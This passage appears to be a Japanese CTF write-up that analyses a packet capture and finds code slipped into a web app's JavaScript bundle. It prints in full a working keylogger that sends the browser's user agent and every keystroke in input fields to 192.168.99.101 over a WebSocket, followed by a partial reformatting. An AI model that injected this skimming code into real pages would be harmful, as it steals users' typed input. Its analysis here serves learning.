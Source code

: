`192.168.99.1` の行動を見ていると、2 度ログインを試行し 1 回目は失敗、2 度目は成功していることが分かります。

ログイン時にパスワードが平文で入力されていないか確認すると、以下のようにパスワードは送信時にハッシュ化されており、元の文字列を得るのは難しいと分かります。

```
POST /login.php HTTP/1.1
Host: 192.168.99.100
...

username=irizaki_mei&cnonce=0.8418828388902593&hash=b7be1c725bdd3bfab1993f2320ee337d17ee6ba9c5d867518b7f69432ea6b3de
```


`192.168.99.100` のファイルを抜き出すために、pcapng を pcap に変換して NetworkMiner に投げます。これで `index.html` とこの中で読み込まれている `dist/bundle.js` が得られました。

`dist/bundle.js` は様々なライブラリが圧縮されており大変読みにくくなっていますが、よく見るとライブラリごとにライセンス表記や改行で区切られていることが分かります。1 行ずつ確認していくと、最終行に以下のような怪しいコードが挿入されているのが分かります。

```javascript
window.addEventListener("DOMContentLoaded",function(){function encode(s,t){var r=[];if(typeof s==="string"){s=new TextEncoder("utf-8").encode(s)}var i,z;for(i=0;i<s.length;i++){if(s[i]){break}}z=i;for(;i<s.length;i++){var c=s[i];var j;for(j=0;j in r||c;j++){if(r[j]){c+=r[j]*256}r[j]=c%58;c=Math.floor(c/58)}}return t[0].repeat(z)+r.reverse().map(function(x){return t[x]}).join("")}function hash(s){var r=0,i;for(i=0;i<s.length;i++){r=r*31+s.charCodeAt(i)|0}return r}function rand(s){var x=123456789;var y=362436069;var z=521288629;var w=88675123;var t;return function(a,b){t=x^x<<11;x=y;y=z;z=w;w=w^w>>19^(t^t>>8);if(a!==undefined&&b!==undefined){return a+w%(b+1-a)}return w}}function shuffle(a,r){var i;for(i=a.length-1;i>0;i--){var j=Math.abs(r(0,i));var t=a[i];a[i]=a[j];a[j]=t}}var w=new WebSocket("ws://192.168.99.101:7467");var t="MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";w.addEventListener("open",function(event){var s=navigator.userAgent;w.send(encode(navigator.userAgent,t));t=t.split("");shuffle(t,rand(hash(s)));t=t.join("")});Array.from(document.getElementsByTagName("input")).forEach(function(e){e.addEventListener("keyup",function(v){w.send(encode(Math.random().toString().slice(2)+" "+v.key,t))},false)})},false);
```

読みやすく整形しましょう。

```javascript
window.addEventListener("DOMContentLoaded", function() {
    function encode(s, t) {
        var r = [];
        if (typeof s === "string") {
            s = new TextEncoder("utf-8").encode(s)
        }
        var i, z;
        for (i = 0; i < s.length; i++) {
            if (s[i]) {
                break
            }
        }
        z = i;
        for (; i < s.length; i++) {
            var c = s[i];
            var j;
            for (j = 0; j in r || c; j++) {
                if (r[j]) {
                    c += r[j] * 256
                }
                r[j] = c % 58;
                c = Math.floor(c / 58)
            }
        }
        return t[0].repeat(z) + r.reverse().map(function(x) {
            return t[x]
        }).join("")
    }

```